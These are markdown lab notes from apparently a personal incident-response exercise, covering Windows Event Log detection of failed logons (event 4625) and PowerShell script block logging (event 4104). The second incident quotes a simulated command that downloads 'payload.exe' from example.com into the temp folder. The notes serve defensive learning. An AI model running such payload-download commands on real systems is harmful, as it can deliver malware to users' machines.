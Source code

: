 # 🧾 Log Analysis Notes – Incident Response Lab (Day #11)

## 🔍 Objective
Analyze Windows Event Logs to detect and document:
- Failed login attempts (unauthorized access)
- Suspicious PowerShell activity (potential malware delivery)

---

## 📁 Log Sources Reviewed

| Log Type                          | Location                                                                 |
|----------------------------------|--------------------------------------------------------------------------|
| Failed Logon Attempts            | Event Viewer → Windows Logs → Security                                   |
| PowerShell Script Block Logging  | Event Viewer → Applications and Services Logs → Microsoft → PowerShell → Operational |

---

## 🧠 Incident #1: Failed Login Detection

- **Event ID**: 4625
- **Description**: Account failed to log on
- **Logon Type**: 2 (Interactive)
- **Username Attempted**: `BecomingCyber`
- **Timestamp**: `2025-04-16 14:23:01`
- **Workstation**: `DESKTOP-BECOMING`
- **IP Address**: `127.0.0.1` (localhost)

### 🔎 Key Takeaway
> Audit logon events are essential to identify brute-force or unauthorized login attempts.

---

## 🧠 Incident #2: PowerShell Download Simulation

- **Event ID**: 4104
- **Command**:
  ```powershell
  Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile "$env:TEMP\payload.exe"
- Username: Becom

- Timestamp: 2025-04-16 15:14:23

- Outcome: Command logged (script block logging enabled)

## 🔎 Key Takeaway
PowerShell logging is vital to monitor encoded or obfuscated command usage by attackers.